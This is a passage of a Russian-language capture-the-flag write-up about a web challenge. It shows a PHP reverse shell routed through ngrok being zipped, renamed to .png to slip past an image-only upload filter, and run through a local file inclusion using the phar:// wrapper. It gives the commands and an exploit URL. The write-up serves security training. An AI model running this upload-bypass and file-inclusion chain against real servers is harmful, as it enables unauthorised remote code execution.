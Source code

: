 </td>
</tr>
</table>

**P.S.**: Значения берем из окна [**ngrok**](https://ngrok.com/).

И так, у нас готов **reverse shell**, но закинуть в таком виде в сервис мы его не можем.
<br>Поэтому, раз уж у нас подсказка на архивы, запакуем наш **reverse shell** в **zip** архив.

```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ zip reverse.zip reverse.php
  adding: reverse.php (deflated 59%)
```

Но так как мы можем загружать на сервер только картинки, то изменим наше расширение с **.zip** на **.png**.

```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ cp reverse.zip reverse.png       
                                                                                                                                                            
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ ls
reverse.png  reverse.zip
```

Осталось только загрузить нашу **"картинку"** на сервер.

![9](images/9.png)

Как видим наша **"картинка"** успешно загружена, а так же указан путь загрузки файла.
<br>**Array upload successful! Save in: upload/reverse.png**

Теперь давайте обратимся к нашему файлу, не забываем, что это у нас **архив**, не смотря на то, что расширение другое.

Вспоминаем, что у нас есть страница **include.php**, и что там есть подсказка **"используйте параметр file"**.
<br>Собственно давайте воспользуемся данным параметром и откроем наш архив при помощи [**phar**](https://www.php.net/manual/en/book.phar.php).

Допишем в адресную строку обращение к архиву и откроем файл запакованный в него.
<br>**Пример:**
http://178.25.13.24:43441/include.php?file=phar://upload/reverse.png/reverse
